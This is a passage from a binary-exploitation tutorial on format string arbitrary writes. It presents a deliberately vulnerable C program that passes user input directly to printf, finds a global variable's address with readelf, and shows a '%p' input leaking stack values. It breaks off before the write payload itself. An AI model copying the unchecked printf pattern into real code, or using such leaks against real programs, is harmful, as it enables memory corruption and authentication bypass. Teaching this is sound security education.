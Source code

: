 Obviously, there is a _small_ flaw - to write, say, `0x8048000` to a memory address, we would have to write that many characters - and generally buffers aren't quite that big. Luckily there are other format string specifiers for that. I fully recommend you watch [this video](https://www.youtube.com/watch?v=t1LH9D5cuK4) to completely understand it, but let's jump into a basic binary.

{% file src="../../.gitbook/assets/fmtstr\_arb\_write.zip" caption="Format String - Arbitrary Write" %}

```c
#include <stdio.h>

int auth = 0;

int main() {
    char password[100];

    puts("Password: ");
    fgets(password, sizeof password, stdin);
    
    printf(password);
    printf("Auth is %i\n", auth);

    if(auth == 10) {
        puts("Authenticated!");
    }
}
```

Simple - we need to overwrite the variable `auth` with the value 10. Format string vulnerability is obvious, but there's also no buffer overflow due to a secure `fgets`.

#### Work out the location of auth

As it's a global variable, it's within the binary itself. We can check the location using `readelf` to check for symbols.

```text
$ readelf -s auth | grep auth
    34: 00000000     0 FILE    LOCAL  DEFAULT  ABS auth.c
    57: 0804c028     4 OBJECT  GLOBAL DEFAULT   24 auth
```

Location of `auth` is `0x0804c028`.

#### Writing the Exploit

We're lucky there's no null bytes, so there's no need to change the order.

```text
$ ./auth 

Password: 
%p %p %p %p %p %p %p %p %p
0x64 0xf7f9f580 0x8049199 (nil) 0x1 0xf7ff5980 0x25207025 0x70252070 0x20702520
```
